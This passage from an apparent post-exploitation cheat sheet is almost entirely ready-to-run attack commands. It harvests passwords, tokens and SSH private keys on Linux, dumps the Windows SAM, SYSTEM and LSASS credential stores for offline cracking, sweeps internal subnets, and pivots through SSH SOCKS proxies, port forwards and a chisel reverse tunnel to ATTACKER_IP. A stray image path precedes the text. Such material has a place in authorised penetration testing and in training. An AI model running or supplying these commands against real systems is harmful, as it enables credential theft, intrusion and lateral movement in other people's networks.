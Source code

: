 Linux:
```
# App configs and keys
grep -R -nEi 'password|passwd|pwd|secret|token|key' /var/www /opt /home 2>/dev/null
ls -la ~/.ssh; cat ~/.ssh/authorized_keys 2>/dev/null; cat ~/.ssh/id_rsa 2>/dev/null
cat /var/www/html/wp-config.php 2>/dev/null
```

Windows:
```
# Offline SAM+SYSTEM dump (requires admin/system)
reg save HKLM\SAM C:\Windows\Temp\SAM.save
reg save HKLM\SYSTEM C:\Windows\Temp\SYSTEM.save

# Transfer and dump with Impacket (attacker box)
secretsdump.py -sam SAM.save -system SYSTEM.save LOCAL

# LSASS dump for later parsing (if permitted; beware EDR)
tasklist | findstr /i lsass
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <LSASS_PID> C:\Windows\Temp\lsass.dmp full
# analyze with pypykatz on attacker
pypykatz lsa minidump lsass.dmp
```

9) Internal network recon (from compromised host)
```
# Linux
ip -brief addr; ip route
arp -an
# Quick sweep (if allowed)
for i in $(seq 1 254); do (ping -c1 -W1 10.0.2.$i >/dev/null && echo 10.0.2.$i) & done; wait

# Windows
ipconfig /all
route print
arp -a
for /L %i in (1,1,254) do @ping -n 1 -w 300 10.0.2.%i | find "TTL="
```

10) Pivoting/tunneling

SSH dynamic SOCKS proxy (if you have SSH access to PIVOT_IP):
```
ssh -i id_rsa -N -D 1080 user@PIVOT_IP
# On attacker, configure proxychains to use socks5 127.0.0.1 1080
proxychains -q nmap -Pn -sT -p 135,139,445 10.0.3.0/24
```

SSH local port forward (to reach a service via pivot):
```
ssh -i id_rsa -N -L 127.0.0.1:3389:10.0.3.10:3389 user@PIVOT_IP
# Now RDP to localhost
xfreerdp /u:USER /p:PASS /v:127.0.0.1
```

Chisel reverse SOCKS (when pivot cannot accept inbound):
```
# Attacker
chisel server --reverse -p 9001
# Victim/pivot
chisel client ATTACKER_IP:9001 R:1080:socks
# Use proxychains or ALL_PROXY to route through 127.0.0.1:1080
```

